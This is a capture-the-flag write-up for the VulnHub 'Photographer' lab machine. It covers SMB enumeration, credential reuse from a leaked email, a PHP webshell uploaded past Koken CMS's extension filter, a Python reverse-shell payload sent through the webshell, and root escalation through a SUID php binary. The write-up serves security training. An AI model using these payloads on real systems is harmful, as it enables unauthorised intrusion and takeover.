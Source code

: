 ```yaml
---
layout: post
title: Writeup for Photographer machine form vulnhub
categories: [writeup]
tags: [vulnhub, Arbitraty file upload, SUID, PHP]
---
```


**Machine** | [Photographer](https://www.vulnhub.com/entry/photographer-1,519/)
**Vulnerability** | Arbitrary File Upload (Authenticated).
**Explanation** | The Koken CMS upload restrictions are based on a list of allowed file extensions (withelist), which facilitates bypass through the handling of the HTTP request via Burp.
**Privilige Escalation Vulnerability** | SUID binary abuse.
**Explanation** | `/usr/bin/php7.2` has the SUID bit set, which allows a non-root user to run command as root using the `-r` switch.

---

# Enumeration

## **Nmap scan**

I started with an nmap scan which revealed four open ports.

```
$ nmap 192.168.56.104 -sV -sC
```

```
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
```

![](/assets/photographer/00-nmap.png)

## **SMB Enumeration**

I used `smbclient` to enumerate the `SMB server` running on port `445`. I started off by listing it's shares.

```
$ smbclient -L 192.168.56.104 -N
```

![](/assets/photographer/01-listshares.png)

I found a share named `sambashare`, which I was able to access anonymously.

```
$ smbclient //192.168.56.104/sambashare -N
smb: \> ls
```

![](/assets/photographer/02-access-sambashare.png)

There was two files `mailsent.txt` and `wordpress.bkp.zip`.  
I downloaded them both.

```
smb: \> get mailsent.txt
smb: \> get wordpress.bkp.zip
```

![](/assets/photographer/03-get-from-share.png)

`mailsent.txt` contained an email with its headers.

```
$ cat mailsent.txt 
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```

![](/assets/photographer/04-mailsent-txt.png)

It didn't seem important at first, but there was a use for it later on.

The other file `wordpress.bkp.zip` did not contain anything important.

## **Web Enumeration**

There was two `apache` web servers running on port `80` and port `8000`.

### **Port 80 :**

I browsed to the first one, but I did not find anything useful.  
I also did not find any hidden resources using `gobuster`.

![](/assets/photographer/05-apache-80.png)

So, I moved to the next one.

### **Port 8000 :**

This is The home page of the web server running on port 8000.

![](/assets/photographer/06-apache-8000.png)

I used `gobuster` to find any hidden resources.

```
$ gobuster dir -u http://192.168.56.104:8000 \
--status-codes-blacklist 404,403 \
--exclude-length 0 \
-w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt
```

> --exclude-length 0: exclude the following content length (completely ignores the status)

![](/assets/photographer/07-gobuster-8000.png)

I was able to find an admin portal on `/admin`.

![](/assets/photographer/08-admin-login-page.png)

The credentials I used to login were found on `mailsent.txt` I retrieved from the `sambashare` share.

```
Email address: daisa@photographer.com
Password: babygirl
```

![](/assets/photographer/09-admin.png)

This is `Koken Content Management System (CMS)` which is vulnerable to an `Arbitrary File Upload` in case of an authenticated user.

To exploit this vulnerability I used an exploit found at [exploit-db](https://www.exploit-db.com/exploits/48706).

# Initial Foothold

I created a php script and saved it as `image.php.jpg`.

```
$ echo '<?php system($_GET["cmd"]);?>' > image.php.jpg
```

I went back to the admin page, clicked on `import content` at the bottom right of the page, uploaded `image.php.jpg`, and sent the requst to burpsuite.

![](/assets/photographer/10-intercept-upload.png)

I changed the name to `image.php`, and forwarded the request.

![](/assets/photographer/11-change-name.png)

After the upload is done, I went back the koken CMS Library, selected The newly uploaded file, right clicked on `Download File` and copied the link.

![](/assets/photographer/12-access-webshell.png)

To test it I used `curl` and sent a request to the link I copied, and I got a response with the output of the command I provided as a query.

```
$ curl http://192.168.56.104:8000/storage/originals/43/f5/image.php?cmd=id
```

![](/assets/photographer/13-cmd-exec-poc.png)

After getting a working `webshell`, I tried to get a reverse shell.

## **Reverse shell**

To get a reverse shell I used this python payload found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python).

```
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.105",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

I started a listener using `netcat`.

```
$ nc -lnvp 1337
```

![](/assets/photographer/14-listener.png)

I executed the payload with the webshell.

```
$ curl 'http://192.168.56.104:8000/storage/originals/43/f5/image.php?cmd=python3%20%2Dc%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket%2Esocket%28socket%2EAF%5FINET%2Csocket%2ESOCK%5FSTREAM%29%3Bs%2Econnect%28%28%22192%2E168%2E56%2E105%22%2C1337%29%29%3Bos%2Edup2%28s%2Efileno%28%29%2C0%29%3Bos%2Edup2%28s%2Efileno%28%29%2C1%29%3Bos%2Edup2%28s%2Efileno%28%29%2C2%29%3Bpty%2Espawn%28%22%2Fbin%2Fsh%22%29%27'
```

![](/assets/photographer/15-payload.png)

And I got a connection back on the `nc` listener.

![](/assets/photographer/16-revshell.png)

To get a fully functioning shell I stabilized it using the folloing commands.

```
$ python3 -c 'import pty; pty.spawn("/bin/sh")'
$ export TERM=xterm
$ ^Z (CTRL+Z)
kali$ stty raw -echo; fg
```

![](/assets/photographer/16-shell-stabilize.png)

After stabilizing the shell, I got the user flag.

```
$ cd /home/daisa
$ cat user.txt
```

![](/assets/photographer/17-user-flag.png)

# Privilige Escalation

I listed all files with the `SUID` bit set, to see if there is a binary a can use to escalate my priviliges.

```
$ find / -type f -perm -u=s 2>/dev/null
```

![](/assets/photographer/18-suid-bins.png)

The intersting binary I found was `/usr/bin/php7.2`.

`php` can be used to excalate priviles according to [GTFOBins](https://gtfobins.github.io/gtfobins/php/#suid).

I used the following command to get a shell as root.

```
$ php7.2 -r "pcntl_exec('/bin/bash', ['-p']);"
```

![](/assets/photographer/20-root-shell.png)

After that I got the root flag.

```
$ cd /root
$ cat proof.txt
```

![](/assets/photographer/21-root-flag.png)
